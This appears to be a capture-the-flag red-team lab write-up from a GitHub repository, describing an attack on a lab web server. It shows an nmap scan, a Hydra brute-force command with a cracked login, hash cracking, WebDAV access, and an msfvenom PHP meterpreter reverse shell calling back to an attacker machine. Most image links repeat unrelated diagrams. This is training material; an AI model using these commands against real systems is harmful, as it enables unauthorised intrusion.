 ﻿##Red Team 

###Step 1: Discovering the IP address of the linux server.

In order to find the ip address of the machine, we will need to use a network mapping tool called Nmap to scan the network. 

- Open the terminal and run: nmap 192.168.1.0/24 (We used this ip cidr range bcause our attack machine belongs to this subnetwork.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/1_nmap.jpg)

From the Nmap scan we can see that port 80 is open. Next we opened a web browser and typed the IP address of the machine into the address bar.

-Open web browser and navigate to 192.168.1.105 and press enter. 
![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)



###Step 2: Locating the hidden directory on the server.

- We navigated through different directories, we noticed reocurring messages:

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- Upon such discovery we navigated to the directory by typing: 192.168.1.105/company_folders/secret_folder

- The directory asked us for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only"

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- We then went back to the web browser and use the credential to log in. We clicked the file connecting_to_webdav

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)


### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient
to use a brute force attack, specifically Hydra. 

- Using Ashton's name, run the Hydra attack against the directory: 

   - type: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- The brute force attack may take some time. Once it finished, the username is ashton and the password is leopoldo.

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

-We went back to the web browser and used the credentiial to log in. We open the file connecting_to_webdav file.  

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Diagrams/Virtual_Network_Map.JPG)


### Step 4: Connect to the server via Webdav 

There are several ways to break the password hash. But in this intanse we avoided waiting for john to crack the password hash, we used https://crackstation.net
paste the password hash and filled out the CAPTCHA; and clicked Crack Hashes. 

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

- The password is revealed as: linux4u

### Step 5: Connecting to the server via WebDAV.

- We gained important information to make the WebDAV connection on our local attack machine. We used that information by:
	
	- We opened the file system shortcut from the desktop.
	
	- Clicked on Browse Network.

	- In the URL bar, typed: dav://192.168.1.105/webdav, and entered the credentials to log in.

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)


### Step 6: Creating and Uploading a PHP reverse shell payload.

- To set up the reverse shell, run:
	- msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

- The series of command above does the following :

	- msfconsole to launch msfconsole.

	- use exploit/multi/handler
	
	- set payload php/meterpreter/reverse_tcp

	- show options and point out they need to set the LHOST

	- set LHOST 192.168.1.90(Attacker Machine)

	- exploit  

- Placed the reverse shell onto the webDAV directory

- We logged back in, visited the webdav folder by navigating to 192.168.1.105/webdav. Used the credentials obtained before, user:ryan pass:linux4u

- I visited where i uploaded the reverse shell and clicked it to activate it. (If it seems like tge browser is hanging or loading, that means it has worked.)

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

### Step 7: Find and capture the flag. 

- on the listener, we are going to search for the file flag.txt located in the root directory. To do such i did the following:

	- Dropped a bash shell with the command: shell

	- Changed directory to the / directory: cd /

	- Searched the system for any files containing the phrase "flag" : find . -iname flag.txt

- Printed the file once i located it by: cat flag.txt

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)


